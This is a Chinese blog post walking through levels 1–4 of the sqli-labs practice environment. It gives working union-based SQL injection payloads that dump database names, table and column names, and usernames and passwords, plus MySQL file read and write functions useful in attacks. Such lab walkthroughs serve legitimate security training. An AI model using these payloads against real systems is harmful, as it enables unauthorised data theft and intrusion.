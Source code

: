 ```yaml
---
layout:     post
title:      sqli-labs(1-4)
subtitle:   sqli-labs(1-4)
date:       2020-11-28
author:     YY——阳阳
header-img: img/post/post-bg-2020-11-28.jpg
catalog: true
tags:
    - sqli-labs
    - sql注入
---
```


## 前言
此关卡的主要思想以及步骤如下：

**首先判断注入方式**

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128112231338.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)

## less-1

#### 0x01
> 提示为字符型注入，构造payload 
> ```../?id=1' and 1=1 ```正确 
> ```../?id=1' and 1=2 ```错误
> ![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128103812435.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
>确认存在注入点

#### 0x02
> 然后进行确认字段数，因为不知道有几个字段，所以进行尝试。构造payload ```../?id=1' order by 1,2,3,4 --+ ```，发现在4时会报错，因此字段有3个。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128104116956.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)

**PS：order by是mysql中对查询数据进行排序的方法，当排序所在列不存在时即会报错，因此根据回显可以判断目前有几列**
```bash
select * from user order by id asc;  对id字段进行排序
select * from user order by 1 desc;  对第一列进行排序
asc 升序排列 desc降序排列
```

#### 0x 03
> 判断回显位置位于哪里，构造payload ```../?id=-1' union select 1,2,3--+```
> 因为判断出一共三列，因此判断1，2，3列的回显位置，此处id为-1，因为union联合查询后，不会多行显示，就需要先让前面的语句失效。![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128112901270.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
ps：此时id=1为正确语句，所以不会回显后边的执行语句。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128113012539.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
ps：此时id=-1为错误判断，因此会回显后边的执行语句，发现回显位置为2和3。

#### 0x04
> 接下来爆库，构造payload，```../?id=-1' union select 1,version(),database()--+```
> ![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128113330872.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
```php
PS：常用sql注入函数
version():mysql版本，user():用户名，database():数据库名，@@datadir:读取数据库路径，@@version_compile_os:操作系统版本
concat(str1,str2,…):没有分割符地连接字符串，显示数据（数据合并）
group_concat(str1,str2,…):连接一个组的所有字符串，并以逗号分割每一条数据，显示数据
into outfile：写文件{select ‘需要写的文件’ into outfile ‘目录下’}，select ‘123123’ into outfile ‘d://study/1.txt’;(将123123添加至d盘study中新建1.txt文件中)
group_concat(列名):会把这一列中所有的内容在一行中以,隔开输出
select load_file(读文件路径)；
length() =>计算字符串长度
hex() =>字符转换为16进制
@@basedir MYSQL获取安装路径
```
>查看所有数据库，payload```../?id=-1' union select 1,group_concat(schema_name) from information_schema.schemata,3 --+```![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128114357420.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70
)![在这里插入图片描述](https://img-blog.csdnimg.cn/2020112811442066.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)

#### 0x05
>查询security内的所有表名，构造payload```../?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = database()--+```![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128114654322.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)

#### 0x06
> 查看users里的字段，构造payload```../?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name = 'users'--+```
> 我们发现了username和password，然后将其进行注入出来
> ![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128114947405.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)

#### 0x07
>查询所有的用户名和密码，构造payload```.../?id=-1' union select 1,group_concat(username),group_concat(password) from users --+```![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128115706646.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)

PS：GROUP_CONCAT函数返回一个字符串结果，该结果由分组中的值连接组合而成。
CONCAT（）函数用于将多个字符串连接成一个字符串。
concat_ws()  将多个字符串连接成一个字符串,可以一次性指定分隔符

## less-2
基于报错的数字型GET注入，这个由于是数字型的，所以闭合的时候不用单引号了。
检查是否存在注入，发现存在注入
```?id=1=1```正确
```?id=1=2```错误
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128120459894.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
整数型注入和字符型注入在于构造的id不同，整数型注入id=-1，下面构造payload

```bash
?id=-1 order by 1,2,3,4,5--+ //判断列数
?id=-1 union select 1,2,3--+ //判断回显位置
?id=-1 union select 1,user(),database()--+ //爆库
?id=-1 union select 1,user(),group_concat(table_name) from information_schema.tables where table_schema=database()--+ //爆表名
?id=-1 union select 1,user(),group_concat(column_name) from information_schema.columns where table_name='users'--+ //爆列名
?id=-1 union select 1,group_concat(username),group_concat(password) from users --+ //爆数据
```

## less-3
基于’)的字符型注入，判断是否存在注入
```id=1') and 1=1```正确
```id=1') and 1=2```错误
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128123046820.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
下面构造payload

```bash
?id=-1') order by 1,2,3,4,5--+ //判断列数
?id=-1') union select 1,2,3--+ //判断回显位置
?id=-1') union select 1,user(),database()--+ //爆库
?id=-1') union select 1,user(),group_concat(table_name) from information_schema.tables where table_schema=database()--+ //爆表名
?id=-1') union select 1,user(),group_concat(column_name) from information_schema.columns where table_name='users'--+ //爆列名
?id=-1') union select 1,group_concat(username),group_concat(password) from users --+ //爆数据
```
## less-4
基于")字符型注入，判断是否存在注入
```id=1“) and 1=1```正确
```id=1”) and 1=2```错误![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128124840306.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
下面构造payload

```bash
?id=-1") order by 1,2,3,4,5--+ //判断列数
?id=-1") union select 1,2,3--+ //判断回显位置
?id=-1") union select 1,user(),database()--+ //爆库
?id=-1") union select 1,user(),group_concat(table_name) from information_schema.tables where table_schema=database()--+ //爆表名
?id=-1") union select 1,user(),group_concat(column_name) from information_schema.columns where table_name='users'--+ //爆列名
?id=-1") union select 1,group_concat(username),group_concat(password) from users --+ //爆数据
```